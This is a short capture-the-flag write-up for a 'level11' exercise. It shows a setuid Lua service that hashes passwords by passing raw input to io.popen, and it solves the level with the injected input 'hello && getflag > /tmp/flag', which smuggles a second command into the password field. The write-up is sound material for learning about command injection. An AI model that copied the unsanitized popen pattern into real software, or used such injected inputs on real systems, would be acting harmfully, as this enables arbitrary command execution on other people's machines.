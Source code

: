 In this level, we have a `setuid` Lua script :

```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

If we try to `./level11` : 
> lua: ./level11.lua:3: address already in use   
stack traceback:   
	[C]: in function 'assert'   
	./level11.lua:3: in main chunk   
	[C]: ?

The port 5151 is already listening. So we can't execute the script juste like
that.   

If we try to connect on port localhost 5151 : `nl localhost 5151` or 
`telnet localhost 5151` : 
> Password :

If we look again at the script, we notice this :   
`  prog = io.popen("echo "..pass.." | sha1sum", "r")`

In Lua programming, `io.popen` executes a command system and then makes use of whatever
is returned by that command.

So, as a password, we can try this : 

> Password : "hello && getflag > /tmp/flag"

Now, if we `cat /tmp/flag` : 
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
X

# Sources :

About io.popen function : 
- https://stackoverflow.com/questions/31889197/what-is-the-purpose-of-io-popen-function
- https://www.tutorialspoint.com/io-popen-function-in-lua-programming